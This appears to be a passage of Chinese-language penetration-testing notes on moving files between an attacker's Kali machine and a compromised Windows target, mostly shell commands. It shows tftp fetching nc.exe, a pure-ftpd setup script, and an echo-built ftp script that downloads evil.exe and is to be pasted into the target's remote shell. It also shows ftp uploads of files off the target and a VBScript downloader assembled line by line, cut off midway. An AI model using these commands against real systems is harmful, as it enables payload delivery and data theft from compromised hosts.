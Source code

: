 目标机:
tftp -i kali-ip GET nc.exe


### ftp

攻击机:
apt-get install pure-ftpd
```setup-ftp
#!/bin/bash

groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd username -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
./setup-ftp(输入要设置的密码)
```ftp-commands
echo open kali-ip 21> ftp.txt
echo username>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```
把ftp-commands文件中的内容粘贴到目标机的远程shell上去运行

目标机上传文件(连接状态):
ftp> put target.exe(如果是windows且文件在其他盘,需使用绝对路径)

关闭ftp:
/etc/init.d/pure-ftpd stop

攻击机使用python起ftp:
apt-get install python-pyftpdlib
mkdir /ftp
cd /ftp/
python -m pyftpdlib -p 21
此时目标机连接的时候,用户名为anonymous,密码随意


### vbscript

```wget-vbs
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo strFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
```